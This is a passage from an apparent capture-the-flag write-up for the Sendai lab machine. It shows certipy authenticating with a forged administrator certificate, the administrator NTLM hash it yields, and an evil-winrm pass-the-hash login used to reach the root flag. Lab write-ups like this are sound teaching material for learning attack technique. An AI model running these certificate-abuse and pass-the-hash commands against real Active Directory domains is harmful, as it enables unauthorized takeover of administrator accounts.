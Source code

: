 ![image.png](/assets/images/Sendai_VL/image%2041.png)

Now we have the set SID for the Administrator account.

So lets again try to authenticate using this pfx.

```bash
certipy auth -pfx 'administrator.pfx' -dc-ip 10.129.234.66 -ns 10.129.234.66 -username administrator -domain sendai.vl
```

![image.png](/assets/images/Sendai_VL/image%2042.png)

Successfully captured the administrator hash, saving that to our creds.txt file and lets now login as him to retrieve our final flag.

Using Evil-winrm to login.

```bash
evil-winrm -i sendai.vl -u 'Administrator' -H 'cfb106feec8b89a3d98e14dcbe8d087a'
```

![image.png](/assets/images/Sendai_VL/image%2043.png)

Listing root.txt
